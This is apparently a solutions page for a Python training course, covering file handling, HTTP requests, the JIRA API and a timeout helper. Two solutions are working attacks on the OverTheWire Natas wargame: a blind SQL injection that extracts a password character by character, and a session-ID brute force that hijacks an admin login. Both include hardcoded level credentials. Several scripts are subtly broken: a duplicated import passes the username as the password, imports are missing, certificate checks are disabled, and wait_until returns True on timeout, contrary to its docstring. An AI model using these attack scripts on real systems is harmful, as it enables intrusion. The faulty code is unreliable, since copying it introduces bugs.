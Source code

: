 Solutions
======================================================



.. _FIL00_solution:
Solution to FIL00
-----------------------------

Working script
+++++++++++++++++

.. code-block:: python

    import random

    with open('input.txt', 'w') as f:
        for i in range(10):
            f.write(str(random.randint(1, 10)) + '\n')

    with open('input.txt') as f_in, open('output.txt', 'w') as f_out:
        for l in f_in:
            f_out.write(int(l)*"X" + '\n')

.. _REQ00_solution:

Solution to REQ00
-----------------------------

Working script
+++++++++++++++++

.. code-block:: python

    from requests.auth import HTTPBasicAuth
    from credentials import username, username

    URL = "https://userdatabase.lsy.pl/employees/report/employee/active"

    auth = HTTPBasicAuth(username, username)

    r = requests.get(URL, auth=auth, verify=False) # to ignore certificate warnings

    print(r.status_code)

.. _REQ01_solution:

Solution to REQ01
-----------------------------

Malicious query
+++++++++++++++++

The user input that would escape the original query, and add the additional condition on the password is (for the first letter assumed to be "A"):

.. code-block:: sql

    'natas16" AND password LIKE BINARY "A%'

The full query will have then the form

.. code-block:: sql

    SELECT * from users where username="natas16" AND password LIKE BINARY "A%"


Working script
+++++++++++++++++

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth

    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

    URL = "http://natas15.natas.labs.overthewire.org"

    auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

    template = 'natas16" AND password LIKE BINARY "{}%'

    letters = ""

    for _ in range(32):
        for letter in chars:
            payload = {"username":template.format(letters+letter)}
            r = requests.get(URL, auth=auth, params=payload)
            if "This user exists" in r.text:
                letters += letter
                print(letters)
                break

    print("Password found {}".format(letters))

.. _REQ02_solution:

Solution to REQ02
-----------------------------

Working script
+++++++++++++++++

.. code-block:: python

    import requests
    from requests.auth import HTTPBasicAuth
    import re

    URL = "http://natas18.natas.labs.overthewire.org"
    auth=HTTPBasicAuth('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

    for sess_id in range(10000):
        print("Trying session ID {}".format(sess_id))
        cookie = {"PHPSESSID":str(sess_id)}
        payload = {"username":"x", "password":"y"}
        r = requests.get(URL, auth=auth, cookies=cookie, params=payload)
        if "You are logged in as a regular user." not in r.text:
            print("Admin session ID found {}".format(sess_id))
            password = re.search("Password: ([A-Za-z0-9]{32})", r.text)
            if password:
                print("Password: "+password.group(1))
            else:
                print("Password not found in the response")
                print(r.text)
            break
        else:
            print("FAILED")
    else:
        print("Brute force on Session ID failed")



.. _API00_solution:

Solution to API00
-----------------------------

Working script
+++++++++++++++++

.. code-block:: python

    from jira import JIRA

    URL = "https://issues.apache.org/jira/"
    j = JIRA(URL)

    search_results = j.search_issues('type="New Feature"', maxResults=100)
    for issue in search_results:
        print(issue.fields.summary)

.. _API01_solution:

Solution to API01
---------------------


Create a new issue with a custom field
++++++++++++++++++++++++++++++++++++++++++++++++++

By looking at the response received with :py:meth`jira.JIRA.createmeta`

we can see that the custom field "Start Date" has the name ``customfield_10018``


Working script
____________________

.. code-block:: python

    from jira import JIRA
    from datetime import datetime

    URL = 'https://trackspace.lhsystems.com/'
    username = input("Username: ")
    password = input("Password: ")

    j = JIRA(server=URL, basic_auth=(username, password))

    project = 'LSYPA'
    issuetype = {'name': 'Task'}
    summary = 'JIRA Training task'
    description = 'Task description'

    date = datetime.now().strftime('%Y-%m-%d')

    issue_fields = {'project': project,
                    'issuetype': issuetype,
                    'summary': summary,
                    'description': description,
                    'customfield_10018': date}

    issue = j.create_issue(fields=issue_fields)

    print("Task with id: {} created.".format(issue.key))


Create a Sub-task
++++++++++++++++++++++++

Observing the fields of a subtask we can find the field ``parent`` which should specify the key of the parent task.

.. code-block:: python

    parent_issue_key = 'LSYPA-488'
    project = 'LSYPA'
    summary = 'JIRA Training Sub-task'
    description = 'Sub-Task description'

    parent = {'key': parent_issue_key}

    issuetype = {'name': 'Sub-task'}

    issue_fields = {'project': project,
                    'issuetype': issuetype,
                    'parent': parent,
                    'summary': summary,
                    'description': description}

    issue = j.create_issue(fields=issue_fields)

    print("Sub-task with id: {} created.".format(issue.key))



.. _ADV00_solution:

Solution to ADV00
--------------------


Working script
+++++++++++++++++

.. code-block:: python

    def wait_until(condition, timeout=10, raise_exception=True, msg=""):
        """
        Wait until the condition returned by 'condition' function is fulfilled,
        or the timeout is expired. The condition should be checked every 100ms

        Args:
            condition: a function that checks a condition and returns True or False
            timeout: maximal timeout after which the function will raise TimeoutException
                    or return False (if raise_exception is False)
            msg: message added to the TimeoutException
        Returns:
            True when the condition is fulfilled within the timeout,
            False when the condition is not fulfilled within the timeout
                    and 'raise_exception' is False
        Raises:
            TimeoutException: if raise_exception is True
                            and the condition is not fulfilled within timeout

        """

        t0 = time.time()

        while time.time() - t0 < timeout:
            if condition():
                return True
            else:
                time.sleep(0.1)
        if raise_exception:
            raise TimeoutError("Condition not fulfilled within timeout. Message: " + msg)
        else:
            return True